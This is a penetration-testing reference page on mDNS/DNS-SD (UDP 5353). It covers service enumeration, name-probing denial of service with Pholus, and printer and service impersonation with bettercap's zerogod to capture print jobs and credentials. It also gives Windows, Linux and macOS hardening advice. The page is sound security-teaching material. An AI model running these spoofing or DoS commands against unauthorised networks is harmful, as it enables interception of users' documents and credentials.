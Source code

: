 # 5353/UDP Multicast DNS (mDNS) and DNS-SD

## Basic Information

Multicast DNS (mDNS) enables DNS-like name resolution and service discovery inside a local link without a unicast DNS server. It uses UDP/5353 and the multicast addresses 224.0.0.251 (IPv4) and FF02::FB (IPv6). DNS Service Discovery (DNS-SD, typically used with mDNS) provides a standardized way to enumerate and describe services via PTR, SRV and TXT records.

```
PORT     STATE SERVICE
5353/udp open  zeroconf
```

Key protocol details you’ll often leverage during attacks:
- Names in the .local zone are resolved via mDNS.
- QU (Query Unicast) bit may request unicast replies even for multicast questions.
- Implementations should ignore packets not sourced from the local link; some stacks still accept them.
- Probing/announcing enforces unique host/service names; interfering here creates DoS/“name squatting” conditions.

## DNS-SD service model

Services are identified as _<service>._tcp or _<service>._udp under .local, e.g. _ipp._tcp.local (printers), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge), etc. Discover types with _services._dns-sd._udp.local, then resolve discovered instances to SRV/TXT/A/AAAA.

## Network Exploration and Enumeration

- nmap target scan (direct mDNS on a host):
  ```bash
  nmap -sU -p 5353 --script=dns-service-discovery <target>
  ```
- nmap broadcast discovery (listen to the segment and enumerate all DNS-SD types/instances):
  ```bash
  sudo nmap --script=broadcast-dns-service-discovery
  ```
- avahi-browse (Linux):
  ```bash
  # List service types
  avahi-browse -bt _services._dns-sd._udp
  # Browse all services and resolve to host/port
  avahi-browse -art
  ```
- Apple dns-sd (macOS):
  ```bash
  # Browse all HTTP services
  dns-sd -B _http._tcp
  # Enumerate service types
  dns-sd -B _services._dns-sd._udp
  # Resolve a specific instance to SRV/TXT
  dns-sd -L "My Printer" _ipp._tcp local
  ```
- Packet capture with tshark:
  ```bash
  # Live capture
  sudo tshark -i <iface> -f "udp port 5353" -Y mdns
  # Only DNS-SD service list queries
  sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
  ```

Tip: Some browsers/WebRTC use ephemeral mDNS hostnames to mask local IPs. If you see random-UUID.local candidates on the wire, resolve them with mDNS to pivot to local IPs.

## Attacks

### mDNS name probing interference (DoS / name squatting)

During the probing phase, a host checks name uniqueness. Responding with spoofed conflicts forces it to pick new names or fail. This can delay or prevent service registration and discovery.

Example with Pholus:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```

### Service spoofing and impersonation (MitM)

Impersonate advertised DNS-SD services (printers, AirPlay, HTTP, file shares) to coerce clients into connecting to you. This is especially useful to:
- Capture documents by spoofing _ipp._tcp or _printer._tcp.
- Lure clients to HTTP/HTTPS services to harvest tokens/cookies or deliver payloads.
- Combine with NTLM relay techniques when Windows clients negotiate auth to spoofed services.

With bettercap’s zerogod module (mDNS/DNS-SD spoofer/impersonator):
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```

Also see generic LLMNR/NBNS/mDNS/WPAD spoofing and credential capture/relay workflows:

[[../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md]]

### Notes on recent implementation issues (useful for DoS/persistence during engagements)

- Avahi reachable-assertion and D-Bus crash bugs (2023) can terminate avahi-daemon on Linux distributions (e.g. CVE-2023-38469..38473, CVE-2023-1981), disrupting service discovery on target hosts until restart.
- Cisco IOS XE Wireless LAN Controller mDNS gateway DoS (2024, CVE-2024-20303) allows adjacent attackers to drive high CPU and disconnect APs. If you encounter an mDNS gateway between VLANs, be aware of its stability under malformed or high-rate mDNS.

## Defensive considerations and OPSEC

- Segment boundaries: Don’t route 224.0.0.251/FF02::FB between security zones unless an mDNS gateway is explicitly required. If you must bridge discovery, prefer allowlists and rate limits.
- Windows endpoints/servers:
  - To hard-disable name resolution via mDNS set the registry value and reboot:
    ```
    HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
    ```
  - In managed environments, disable the built-in “mDNS (UDP-In)” Windows Defender Firewall rule (at least on the Domain profile) to prevent inbound mDNS processing while preserving home/roaming functionality.
  - On newer Windows 11 builds/GPO templates, use the policy “Computer Configuration > Administrative Templates > Network > DNS Client > Configure multicast DNS (mDNS) protocol” and set it to Disabled.
- Linux (Avahi):
  - Lock down publishing when not needed: set `disable-publishing=yes`, and restrict interfaces with `allow-interfaces=` / `deny-interfaces=` in `/etc/avahi/avahi-daemon.conf`.
  - Consider `check-response-ttl=yes` and avoid `enable-reflector=yes` unless strictly required; prefer `reflect-filters=` allowlists when reflecting.
- macOS: Restrict inbound mDNS at host/network firewalls when Bonjour discovery is not needed for specific subnets.
- Monitoring: Alert on unusual surges in `_services._dns-sd._udp.local` queries or sudden changes in SRV/TXT of critical services; these are indicators of spoofing or service impersonation.

## Tooling quick reference

- nmap NSE: `dns-service-discovery` and `broadcast-dns-service-discovery`.
- Pholus: active scan, reverse mDNS sweeps, DoS and spoofing helpers.
  ```bash
  # Passive sniff (timeout seconds)
  sudo python3 pholus3.py <iface> -stimeout 60
  # Enumerate service types
  sudo python3 pholus3.py <iface> -sscan
  # Send generic mDNS requests
  sudo python3 pholus3.py <iface> --request
  # Reverse mDNS sweep of a subnet
  sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
  ```
- bettercap zerogod: discover, save, advertise, and impersonate mDNS/DNS-SD services (see examples above).

## Spoofing/MitM

The most interesting attack you can perform over this service is to perform a MitM in the communication between the client and the real server. You might be able to obtain sensitive files (MitM the communication with the printer) or even credentials (Windows authentication).\
For more information check:

[[../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md]]

## References

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD discovery, spoofing, impersonation)](https://www.bettercap.org/modules/ethernet/zerogod/)

